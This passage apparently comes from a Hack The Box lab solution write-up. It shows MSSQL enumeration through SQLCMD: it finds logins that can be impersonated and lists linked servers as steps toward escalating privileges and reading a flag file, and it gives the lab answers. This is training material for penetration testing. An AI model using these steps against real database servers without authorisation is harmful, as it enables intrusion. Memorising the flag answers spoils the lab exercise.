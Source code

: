 ![[HTB Solutions/CPTS/z. images/46588f06e3a6b4c924c78106359f500b_MD5.jpg]]

Thereafter, students need to connect to the default MSSQL instance by using Windows Authentication mode, providing the name of the computer `WIN-HARD` for the `-S` option:

```powershell
SQLCMD.EXE -S WIN-HARD
```
```
Windows PowerShell
Copyright (C) Microsoft Corporation. All rights reserved.

PS C:\Users\Fiona> SQLCMD.EXE -S WIN-HARD
1>
```

Subsequently, students need to identify users that can be impersonated as, finding `john` and `simon`:

```sql
SELECT distinct b.name FROM sys.server_permissions a INNER JOIN sys.server_principals b ON a.grantor_principal_id = b.principal_id WHERE a.permission_name = 'IMPERSONATE'
GO
```
```
1> SELECT distinct b.name FROM sys.server_permissions a INNER JOIN sys.server_principals b ON a.grantor_principal_id = b.principal_id WHERE a.permission_name = 'IMPERSONATE'
2> GO

name
-------------
john
simon

(2 rows affected)
```

The answer will be the user `john`.

Answer: `john`

# Attacking Common Services - Hard

## Question 4

### "Submit the contents of the flag.txt file on the Administrator Desktop."

Using the same PowerShell session that is running `SQLCMD.exe` from the previous question, students need to query for `linked servers` from the `sysservers` table, finding one named `LOCAL.TEST.LINKED.SRV` (1 for `isremote` implies that the server is a `remote` one, while 0 implies that it is a `linked` one):

```sql
SELECT srvname, isremote FROM sysservers
GO
```
```
1> SELECT srvname, isremote FROM sysservers
2> GO
srvname                           isremote
--------------------------------- --------
WINSRV02\SQLEXPRESS                1
LOCAL.TEST.LINKED.SRV              0

(2 rows affected)
```